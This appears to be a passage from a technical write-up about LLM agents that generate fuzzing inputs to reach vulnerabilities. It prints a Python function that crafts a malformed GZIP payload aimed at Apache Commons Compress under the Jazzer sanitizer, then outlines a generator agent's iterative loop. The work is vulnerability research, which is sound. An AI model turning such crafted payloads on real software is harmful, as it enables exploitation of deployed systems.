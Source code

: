 **Example Approach: Apache Commons Compress GZIP**
```python
def create_payload() -> bytes:
    payload = bytearray()
    
    # GZIP magic bytes (required to pass format check)
    payload.extend([0x1f, 0x8b])  # .ID1, .ID2
    payload.append(8)     # Compression (DEFLATED)
    payload.append(0x08)  # FNAME flag set
    
    # Vulnerability condition: exact timestamp
    mod_time = 1731695077  # Vulnerability trigger
    payload.extend(struct.pack('<I', mod_time))
    
    payload.extend([0x00, 0x00])  # Extra flags
    
    # Filename section - exact command for sanitizer
    filename = b"jazze"   # Required by jazzer
    payload.extend(filename)
    payload.append(0x00)  # Null terminator
    
    # Complete GZIP structure with minimal data
    payload.extend([0x03, 0x00])  # Minimal data
    payload.extend([0x00, 0x00, 0x00, 0x00])  # CRC32
    payload.extend([0x00, 0x00, 0x00, 0x00])  # ISIZE
    
    return bytes(payload)
```

Notice the surgical precision: exact modification time, specific filename pattern, proper GZIP structure. BlobGen discovered these requirements through iterative coverage analysis, using the line-level coverage data (file names, function names, and line numbers) to add `@VISITED` markers and track progress toward the vulnerability.

**When BlobGen Wins:** Known vulnerability path, strict format requirements, need for precise value combinations.

### 🎲 Generator Agent: The Probability Explorer

Then we discovered something counterintuitive that changed our whole approach: when you can't predict which attack will succeed, systematic variation beats precision. The Generator Agent emerged from a crucial realization – instead of fighting LLM non-determinism, we could weaponize it.

**The Approach:** Generator creates `generate(rnd: random.Random) -> bytes` functions that produce 20 variations per iteration. This probabilistic strategy turns LLM non-determinism from weakness into strength through systematic exploration.

```
┌──────────────────┐    ┌─────────────────┐    ┌──────────────────┐
│ Plan             │───▶│ Create/Improve  │───▶│ Collect          │
│ Generator        │    │ Generator       │    │ Coverage         │
└──────────────────┘    └─────────────────┘    └─────────┬────────┘
                                 ▲                       │
      ┌─────────────────────────▶│                       │
      │                          │                       ▼
      │                 ┌─────────────────┐    ┌──────────────────┐
      │                 │ Analyze         │◀───│ Update           │
      │                 │ Coverage        │    │ Interesting      │
      │                 └────────┬────────┘    │ Functions        │
      │                          │             └──────────────────┘
      │                          ▼
      │                 ┌─────────────────┐
      │                 │ Finalize        │
      │                 └─────────────────┘
      │
  Iterative Improvement Loop (20 variations per iteration)
```